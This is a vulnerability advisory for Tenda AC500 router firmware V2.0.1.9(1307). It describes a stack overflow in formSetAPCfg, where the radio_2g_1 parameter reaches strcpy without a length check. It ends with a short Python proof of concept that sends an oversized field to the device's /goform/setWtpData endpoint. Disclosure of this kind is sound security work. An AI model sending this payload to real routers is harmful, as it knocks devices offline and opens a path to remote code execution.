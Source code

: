 # Tenda AC500 formSetAPCfg
### Overview
vendor: Tenda

product: AC500

version: V2.0.1.9(1307)

type: Stack Overflow
### Vulnerability Description
Tenda AC500 V2.0.1.9(1307) were discovered to contain a stack overflow via the radio_2g_1 parameter in the formSetAPCfg function.
### Vulnerability details
In function formSetAPCfg line 124, it reads in a user-provided parameter `radio_2g_1`, and the variable `src` is passed to the `strcpy` function without any length check, which may overflow the stack-based buffer `s_1`. As a result, by requesting the page, an attacker can easily execute a denial of service attack or remote code execution.

![](images/2.png)
![](images/1.png)

### POC
```python
import requests
ip = '192.168.0.1'
url = f'http://{ip}/goform/setWtpData'
payload = {
    "radio_2g_1": 'a' * 1000
}

res = requests.post(url=url, data=payload)
print(res.content)
```
